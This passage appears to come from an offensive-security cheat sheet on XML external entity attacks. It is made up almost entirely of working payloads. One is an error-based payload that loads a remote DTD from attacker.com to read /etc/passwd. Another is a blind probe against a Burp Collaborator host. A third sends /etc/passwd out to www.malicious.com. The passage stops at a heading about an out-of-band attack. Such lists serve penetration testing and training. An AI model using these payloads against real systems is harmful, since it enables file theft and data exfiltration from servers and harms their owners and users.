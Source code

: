 ### **Error Based XXE** ###

**Payload to trigger the XXE**

```
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```

**Contents of ext.dtd**

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

### **Exploiting blind XXE to exfiltrate data out-of-band** ###

Sometimes you won't have a result outputted in the page but you can still extract the data with an out of band attack.

#### **Blind XXE** ####

The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>
```

Send the content of `/etc/passwd` to "[www.malicious.com](http://www.malicious.com/)", you may receive only the first line.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

#### **XXE OOB Attack (Yunusov, 2013)** ####
